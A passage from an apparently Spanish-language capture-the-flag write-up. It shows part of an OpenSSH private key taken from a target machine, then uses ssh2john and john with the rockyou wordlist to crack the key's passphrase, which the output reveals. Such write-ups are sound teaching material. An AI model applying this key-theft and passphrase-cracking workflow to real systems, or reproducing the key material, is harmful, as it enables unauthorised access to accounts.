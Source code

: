 ```bash
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
vEACJSQrQKz9mWnewtRP5pzZk=
-----END OPENSSH PRIVATE KEY-----
```

Conseguimos leer el id_rsa, vamos a tratarlo con john

```bash
❯ nano id_rsa
❯ ssh2john id_rsa > hash_root
```

Hacemos un nano, copiamos todo el id_rsa, y con ssh2john lo hasheamos para poder crackearlo con john:

```bash
❯ john hash_root --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 2 for all loaded hashes
Cost 2 (iteration count) is 16 for all loaded hashes
Will run 12 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
honda1           (id_rsa)     
1g 0:00:00:45 DONE (2024-05-29 16:44) 0.02212g/s 78.58p/s 78.58c/s 78.58C/s girls..01234
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

```
